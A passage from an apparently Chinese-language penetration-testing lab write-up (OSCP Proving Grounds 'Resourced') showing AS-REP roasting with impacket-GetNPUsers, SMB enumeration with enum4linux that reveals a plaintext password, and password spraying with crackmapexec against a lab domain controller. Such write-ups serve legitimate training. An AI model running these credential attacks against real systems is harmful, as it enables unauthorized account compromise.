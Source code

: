 查看有没有泄露的hash

```
impacket-GetNPUsers resourced.local/ -dc-ip 192.168.118.175 -no-pass -usersfile '/home/cyborg/oscp/pg/win/Resourced/users.txt'
```

![image-20250308125300529](./PG_win.assets/image-20250308125300529.png)

未果，使用enum4linux针对smb收集发现一个疑似用户凭证的：HotelCalifornia194!

```
enum4linux 192.168.118.175
```

![image-20250308125116443](./PG_win.assets/image-20250308125116443.png)

使用crackmapexec对已知密码进行密码喷洒

```
crackmapexec smb 192.168.118.175 -u ./users.txt -p 'HotelCalifornia194!'
```
